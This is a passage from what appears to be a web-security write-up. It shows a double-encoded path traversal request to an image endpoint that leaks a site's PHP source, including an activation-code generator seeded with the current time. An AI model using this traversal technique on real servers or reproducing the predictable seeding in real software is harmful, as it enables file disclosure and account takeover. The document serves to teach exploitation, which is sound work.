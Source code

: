 ```
                    echo '<ul class="uk-navbar-nav"><li><a href="logout.php">Log Out</a></li></ul>';
                } else {
                    echo '<ul class="uk-navbar-nav"><li><a href="login.php">Log In</a></li></ul>';
                }
                ?>
            </div>
        </div>
    </div>
</nav>
```

And finally, `GET /includes/img.php?path=..%252Fincludes%252Futils.php HTTP/1.1` gives us:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:03:41 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 3060
Connection: close
Content-Type: image/png

<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

// Source: https://stackoverflow.com/a/4420773 (Slightly adapted)
function rel_time($from, $to = null) {
    $to = (($to === null) ? (time()) : ($to));
    $to = ((is_int($to)) ? ($to) : (strtotime($to)));
    $from = ((is_int($from)) ? ($from) : (strtotime($from)));

    $units = array
    (
        "year"   => 29030400, // seconds in a year   (12 months)
        "month"  => 2419200,  // seconds in a month  (4 weeks)
        "week"   => 604800,   // seconds in a week   (7 days)
        "day"    => 86400,    // seconds in a day    (24 hours)
        "hour"   => 3600,     // seconds in an hour  (60 minutes)
        "minute" => 60,       // seconds in a minute (60 seconds)
        "second" => 1         // 1 second
    );

    $diff = abs($from - $to);

    if ($diff < 1) {
        return "Just now";
    }

    $suffix = (($from > $to) ? ("from now") : ("ago"));

    $unitCount = 0;
    $output = "";

    foreach($units as $unit => $mult)
        if($diff >= $mult && $unitCount < 1) {
            $unitCount += 1;
```